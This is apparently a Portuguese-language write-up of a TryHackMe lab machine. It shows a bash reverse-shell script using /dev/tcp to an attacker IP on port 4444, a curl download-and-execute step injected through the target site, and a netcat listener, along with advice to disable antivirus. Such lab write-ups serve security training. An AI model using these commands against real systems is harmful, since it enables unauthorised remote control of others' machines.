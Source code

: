 # 🛡️ Exploração da Máquina — 0ff3ns!v3 S3cur!ty - Sw4gg3r

## 🔗 Links

- 💻 **Máquina:** [Google Drive - Máquina](https://drive.google.com/file/d/1XsuWUulDDdktnV6fpPgRIH172iASvVmz/view)
- 🔍 **Prova:** [TryHackMe - 0ff3ns!v3 S3cur!ty - Sw4gg3r](https://tryhackme.com/room/0ff3nsv3s3curtysw4gg3r)

---
## obs: Desligar antivirus.

### Parece que a mquina tem um curl ,da pra subir um arquivo shell em servidor python com o script do shelRev baixar na maquina com o curl , executar e escutar a resposta do outro lado

![image](https://github.com/user-attachments/assets/9de29dba-6b94-4492-9d84-54b28b5408e3)
### dentro do arquivo shell_2.sh

```shell
  #!/bin/bash
  bash -i >& /dev/tcp/192.168.100.168/4444 0>&1

```

### Dentro dessa pasta vamos subir o servidor pyhton para baixar com o curl
![image](https://github.com/user-attachments/assets/ce117679-c08a-4e7b-90c8-79057e4d97db)

---

### No site vamos colocar o comando do curl para baixar o arquivo e em seguida ja executa-lo | shel_2
![image](https://github.com/user-attachments/assets/c0bba9e9-88df-4021-b2c9-9c3276935111)

### no outro terminal eu fico na escuta do nc -nlvp 4444
![image](https://github.com/user-attachments/assets/c3e6ad67-6e91-4442-a4e9-6196b32a58e2)

### shel recebido agora fazer post exploration e escalar previlegio
